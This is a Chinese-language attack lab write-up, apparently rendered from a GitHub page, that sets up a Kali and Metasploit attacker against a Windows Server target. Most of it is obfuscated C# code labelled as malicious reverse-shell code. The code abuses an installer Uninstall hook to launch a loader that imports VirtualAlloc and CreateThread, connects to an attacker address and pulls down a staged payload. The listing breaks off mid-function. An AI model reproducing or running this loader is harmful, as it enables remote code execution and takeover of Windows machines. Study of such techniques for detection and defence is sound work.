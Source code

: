 ### 环境准备
- **攻击机**：Kali Linux 2019（或其他支持Metasploit的系统）
- **靶机**：Windows Server 2012（或其他支持.NET Framework的Windows系统）
- **工具**：
  - Metasploit Framework（用于生成Payload和监听）
  - .NET Framework开发环境（用于编译恶意代码）
  - Sysmon（可选，用于日志收集）

### 攻击分析

#### 1.生成恶意C#代码
以下是恶意C#代码，用于实现反弹Shell：

```csharp
using System;
using System.Net;
using System.Net.Sockets;
using System.Runtime.InteropServices;
using System.Configuration.Install;
using System.Windows.Forms;

public class GQLBigHgUniLuVx {
    public static void Main() {
        while (true) {
            MessageBox.Show("doge");
            Console.ReadLine();
        }
    }
}

[System.ComponentModel.RunInstaller(true)]
public class esxWUYUTWShqW : System.Configuration.Install.Installer {
    public override void Uninstall(System.Collections.IDictionary zWrdFAUHmunnu) {
        jkmhGrfzsKQeCG.LCIUtRN();
    }
}

public class jkmhGrfzsKQeCG {
    [DllImport("kernel32")]
    private static extern UInt32 VirtualAlloc(UInt32 YUtHhF,UInt32 VenifEUR,UInt32 NIHbxnOmrgiBGL,UInt32 KIheHEUxhAfOI);
    
    [DllImport("kernel32")]
    private static extern IntPtr CreateThread(UInt32 GDmElasSZbx,UInt32 rGECFEZG,UInt32 UyBSrAIp,IntPtr sPEeJlufmodo,UInt32 jmzHRQU,ref UInt32 SnpQPGMvDbMOGmn);
    
    [DllImport("kernel32")]
    private static extern UInt32 WaitForSingleObject(IntPtr pRIwbzTTS,UInt32 eRLAWWYQnq);

    static byte[] ErlgHH(string ZwznjBJY,int KsMEeo) {
        IPEndPoint qAmSXHOKCbGlysd=new IPEndPoint(IPAddress.Parse(ZwznjBJY),KsMEeo);
        Socket XXxIoIXNCle=new Socket(AddressFamily.InterNetwork,SocketType.Stream,ProtocolType.Tcp);
        try {XXxIoIXNCle.Connect(qAmSXHOKCbGlysd);} catch {return null;}
        byte[] UmquAHRnhhpuE=new byte[4];
        XXxIoIXNCle.Receive(UmquAHRnhhpuE,4,0);
        int kFVRSNnpj=BitConverter.ToInt32(UmquAHRnhhpuE,0);
        byte[] qaYyFq=new byte[kFVRSNnpj+5];
        int SRCDELibA=0;
        while(SRCDELibA<kFVRSNnpj) {
            SRCDELibA+=XXxIoIXNCle.Receive(qaYyFq,SRCDELibA+5,(kFVRSNnpj-SRCDELibA)<4096?(kFVRSNnpj-SRCDELibA):4096,0);
        }
```